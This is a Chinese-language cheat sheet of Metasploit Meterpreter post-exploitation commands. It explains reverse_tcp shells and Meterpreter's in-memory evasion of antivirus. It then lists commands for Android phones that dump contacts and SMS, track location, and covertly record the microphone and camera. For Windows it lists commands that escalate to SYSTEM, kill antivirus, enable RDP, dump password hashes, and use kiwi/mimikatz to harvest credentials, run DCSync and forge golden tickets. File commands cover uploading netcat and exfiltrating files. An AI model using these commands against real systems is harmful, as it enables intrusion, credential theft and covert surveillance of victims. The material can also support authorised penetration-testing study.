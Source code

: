 # 一、 Meterpreter是什么

Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。

# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令

## 1.基本命令

- help# 查看Meterpreter帮助
- background#返回，把meterpreter后台挂起
- bgkill# 杀死一个 meterpreter 脚本
- bglist#提供所有正在运行的后台脚本的列表
- bgrun#作为一个后台线程运行脚本
- channel#显示活动频道
- sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
- sesssions -k  number #与会话进行交互
- close# 关闭通道
- exit# 终止 meterpreter 会话
- quit# 终止 meterpreter 会话
- interact id #切换进一个信道
- run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
- irb# 进入 Ruby 脚本模式
- read# 从通道读取数据write# 将数据写入到一个通道
- run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
- use# 加载 meterpreter 的扩展
- load/use#加载模块
- Resource#执行一个已有的rc脚本

## 2  常用命令

### 2.1 针对安卓手机的一些命令

获取手机通讯录： dump_contacts

获取短信记录：dump_sms

控制实验手机发短信：send_sms -d 15330252525 -t
"hello"

获取实验手机GPS定位信息：geolocate

获取实验手机Wi-Fi定位信息：wlan_geolocate

控制实验手机录音：record_mic
-d  5

获取实验手机相机设备：webcam_list

控制实验手机拍照 ：webcam_snap

直播实验手机摄像头：webcam_stream

### 2.2 针对Windows的一些命令

查看进程：ps

查看当前进程号：getpid

查看系统信息：sysinfo

查看目标机是否为虚拟机：run
post/windows/gather/checkvm

查看完整网络设置：route

查看当前权限：getuid

自动提权：getsystem

关闭杀毒软件：run post/windows/manage/killav

启动远程桌面协议：run post/windows/manage/enable_rdp

列举当前登录的用户：run post/windows/gather/enum_logged_on_users

查看当前应用程序：run post/windows/gather/enum_applications

抓取目标机的屏幕截图：load espia ； screengrab

获取相机设备：webcam_list

控制拍照 ：webcam_snap

直播摄像头：webcam_stream

控制录音：record_mic

查看当前处于目标机的那个目录：pwd

查看当前目录：getlwd

导出当前用户密码哈希  run hashdump

用户名：SID：LM哈希：NTLM哈希:::

也可以使用下面这个命令导出 权限更高   run windows/gather/smart_hashdump

抓取自动登录的用户名和密码  run windows/gather/credentials/windows_autologin

直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）

首选终端输入  load kiwi    加载kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

## 3.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
edit c:\boot.ini  # 编辑文件
getlwd#打印本地目录
getwd#打印工作目录
lcd#更改本地目录
ls#列出在当前目录中的文件列表
lpwd#打印本地目录
pwd#输出工作目录
cd c:\\ #进入目录文件下
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
mv#修改目标主机上的文件名
search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*.bat c:\\xamp\\
enumdesktops     #用户登录数